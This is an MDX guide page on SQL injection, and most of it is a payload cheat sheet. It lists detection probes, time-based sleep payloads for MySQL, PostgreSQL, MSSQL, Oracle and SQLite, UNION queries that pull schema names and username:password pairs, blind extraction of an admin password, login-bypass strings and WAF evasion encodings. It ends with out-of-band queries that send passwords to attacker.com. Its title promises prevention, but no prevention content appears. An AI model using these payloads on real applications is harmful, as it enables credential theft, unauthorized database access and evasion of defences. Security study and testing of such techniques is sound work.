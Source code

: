 ```yaml
---
title: SQL Injection Complete Guide
description: A comprehensive guide to understanding, detecting, exploiting, and preventing SQL injection vulnerabilities
---
```



<CardGrid stagger>
  <Card title="What is SQL Injection?" icon="open-book">
    A security vulnerability that occurs when an attacker can insert malicious SQL code into queries that an application makes to its database.
  </Card>
  
  <Card title="Potential Impact" icon="warning">
    - Unauthorized data access
    - Data manipulation/deletion
    - Authentication bypass
    - Server compromise
    - Denial of service
  </Card>
  
  <Card title="Risk Level" icon="error">
    SQL injection is considered a critical vulnerability (CVSS Score: 7.0-10.0) that can lead to complete system compromise.
  </Card>
</CardGrid>

## Detection Techniques

### Initial Testing

<Steps>
1. **Basic Character Tests**
   ```sql
   [Nothing]
   '
   "
   `
   ')
   ")
   `)
   '))
   "))
   `))
   ```

2. **Database-Specific Comments**
   <Tabs>
     <TabItem label="MySQL">
       ```sql
       #comment
       -- comment     [Space required after --]
       /*comment*/
       /*! MYSQL Special SQL */
       ```
     </TabItem>
     <TabItem label="PostgreSQL">
       ```sql
       --comment
       /*comment*/
       ```
     </TabItem>
     <TabItem label="MSSQL">
       ```sql
       --comment
       /*comment*/
       ```
     </TabItem>
     <TabItem label="Oracle">
       ```sql
       --comment
       ```
     </TabItem>
     <TabItem label="SQLite">
       ```sql
       --comment
       /*comment*/
       ```
     </TabItem>
   </Tabs>

3. **Logical Operations Testing**
   ```sql
   page.asp?id=1 or 1=1    # True condition
   page.asp?id=1' or 1=1   # True with string termination
   page.asp?id=1" or 1=1   # True with double quote
   page.asp?id=1 and 1=2   # False condition
   ```
</Steps>

## Time-Based Detection

<Tabs>
  <TabItem label="MySQL">
    ```sql
    1' + sleep(10)
    1' and sleep(10)
    1' && sleep(10)
    1' | sleep(10)
    ```
  </TabItem>
  <TabItem label="PostgreSQL">
    ```sql
    1' || pg_sleep(10)
    ```
  </TabItem>
  <TabItem label="MSSQL">
    ```sql
    1' WAITFOR DELAY '0:0:10'
    ```
  </TabItem>
  <TabItem label="Oracle">
    ```sql
    1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)
    ```
  </TabItem>
  <TabItem label="SQLite">
    ```sql
    1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
    ```
  </TabItem>
</Tabs>

## Exploitation Techniques

### UNION Based Attacks

<Steps>
1. **Column Count Detection**
   ```sql
   # Using ORDER BY
   1' ORDER BY 1--+
   1' ORDER BY 2--+
   1' ORDER BY 3--+
   
   # Using UNION SELECT
   1' UNION SELECT null--
   1' UNION SELECT null,null--
   1' UNION SELECT null,null,null--
   ```

2. **Data Extraction**
   ```sql
   # Database names
   -1' UNION SELECT 1,2,GROUP_CONCAT(schema_name) 
   FROM information_schema.schemata--
   
   # Table names
   -1' UNION SELECT 1,2,GROUP_CONCAT(table_name) 
   FROM information_schema.tables 
   WHERE table_schema='target_db'--
   
   # Column names
   -1' UNION SELECT 1,2,GROUP_CONCAT(column_name) 
   FROM information_schema.columns 
   WHERE table_name='target_table'--
   ```

3. **Data Retrieval**
   ```sql
   -1' UNION SELECT 1,2,GROUP_CONCAT(username,':',password) 
   FROM users--
   ```
</Steps>

### Blind SQL Injection

<CardGrid>
  <Card title="Boolean Based" icon="random">
    ```sql
    # Test each character
    1 AND SUBSTRING((SELECT password FROM users 
    WHERE username = 'admin'),1,1) = 'a'
    ```
  </Card>
  <br/>
  <Card title="Time Based" icon="seti:lua">
    ```sql
    1 AND IF(SUBSTRING((SELECT password FROM users 
    WHERE username = 'admin'),1,1) = 'a', 
    SLEEP(5), 0)
    ```
  </Card>
</CardGrid>

### Authentication Bypass Techniques

<Tabs>
  <TabItem label="Basic Bypasses">
    ```sql
    admin' --
    admin' #
    admin'/*
    admin' or '1'='1
    admin' or '1'='1'--
    ```
  </TabItem>
  <TabItem label="Advanced Bypasses">
    ```sql
    admin') or ('1'='1
    admin') or ('1'='1'--
    admin'or 1=1 or ''='
    admin' or 1=1
    admin' or 1=1--
    admin' or 1=1#
    admin' or 1=1/*
    ```
  </TabItem>
</Tabs>

## WAF Bypass Techniques

### Space Character Bypasses

<CardGrid>
  <Card title="Using Encoded Characters" icon="pencil">
    ```sql
    id=1%09and%091=1%09--
    id=1%0Dand%0D1=1%0D--
    id=1%0Cand%0C1=1%0C--
    id=1%0Band%0B1=1%0B--
    id=1%0Aand%0A1=1%0A--
    ```
  </Card>
  
  <Card title="Using Comments" icon="document">
    ```sql
    id=1/**/and/**/1=1/**/--
    id=(1)and(1)=(1)--
    ```
  </Card>
</CardGrid>

### SQL Keyword Bypasses

<Tabs>
  <TabItem label="Operator Alternatives">
    ```sql
    AND   -> && -> %26%26
    OR    -> || -> %7C%7C
    =     -> LIKE, REGEXP, RLIKE
    > X   -> NOT BETWEEN 0 AND X
    ```
  </TabItem>
  <TabItem label="Comment Alternatives">
    ```sql
    -- comment
    # comment
    /*comment*/
    ;%00
    ```
  </TabItem>
</Tabs>

## Out of Band (OOB) Techniques

<Card title="DNS Exfiltration" icon="external">
  ```sql
  # MySQL
  SELECT LOAD_FILE(CONCAT('\\\\',
    (SELECT password FROM users WHERE id=1),
    '.attacker.com\\1.txt'));
  
  # Oracle
  SELECT UTL_HTTP.REQUEST
    ('http://attacker.com/'||(SELECT user FROM DUAL))
    FROM DUAL;
  ```
</Card>

## Additional Resources

<CardGrid>
  <LinkCard
    title="OWASP SQL Injection Guide"
    description="Comprehensive guide from OWASP about SQL injection"
    href="https://owasp.org/www-community/attacks/SQL_Injection"
    icon="external"
  />
  
  <LinkCard
    title="PortSwigger Web Security Academy"
    description="Interactive SQL injection learning materials"
    href="https://portswigger.net/web-security/sql-injection/cheat-sheet"
    icon="external"
  />
</CardGrid>
